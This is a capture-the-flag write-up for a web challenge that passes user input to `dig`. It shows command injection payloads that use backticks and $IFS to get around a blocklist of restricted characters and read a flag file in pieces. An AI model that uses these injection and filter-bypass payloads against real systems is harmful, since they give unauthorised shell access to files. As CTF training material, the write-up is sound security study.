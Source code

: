 ## chall oscommand

Author: 53buahapel

Flag folder is in / directory. Find a way to get it.

restricted: [';', '&', '|', '||', '&&', '>', '<', '(', ')', '{', '}', '[', ']', '\', ''', '"', '!', '*', '?', '~', '#', '%', '+', ' ']

Connect: http://172.188.90.64:6779


## solution 
first thing first this is a web challange with os command injection vulnerablity. The challange service is just execute bash command like `dig (myinput)` and render the output back in html response.

example : 

input : `google.com`

output : 

```  
; <<>> DiG 9.16.33-Debian <<>> google.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 25488
;; flags: qr rd ra; QUERY: 1, ANSWER: 6, AUTHORITY: 4, ADDITIONAL: 0

;; QUESTION SECTION:
;google.com.			IN	A
  
```


1. To retrieve information about the flag, we utilized a backtick and the $IFS variable trick to circumvent restrictions. The flag is located within a directory named 'sup3rsecr3td1rectory' in the root folder. By executing the command `` `ls$IFS../sup3rsecr3td1rectory/` ``, the flag filename is flag2.txt.
2. First try (fail) using cat (dont know why) `` `cat$IFS../sup3rsecr3td1rectory/flag2.txt` ``.
3. Messing around with du command to get information about how many bytes in flag2.txt. `` `du$IFS-b$IFS../sup3rsecr3td1rectory/flag2.txt` `` . The output is 72 bytes with \n.
4. Using head to get the first 60 characters of the flag2.txt. `` `head$IFS-c60$IFS../sup3rsecr3td1rectory/flag2.txt` `` . Output : TCP1P{007150786cd8158d85d4d9445115857a82adc67310b8f78a011b95
5. Using cut command to get the last 12 chars of the flag2.txt. `` `cut$IFS-c61-72$IFS../sup3rsecr3td1rectory/flag2.txt` ``. Output : 57dd540593} 

Intended solution : `` localhost$IFS`cat$IFS../sup3rsecr3td1rectory/flag2.txt` ``

references [hacktrick](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions) [backtick explanation](https://unix.stackexchange.com/questions/27428/what-does-backquote-backtick-mean-in-commands)


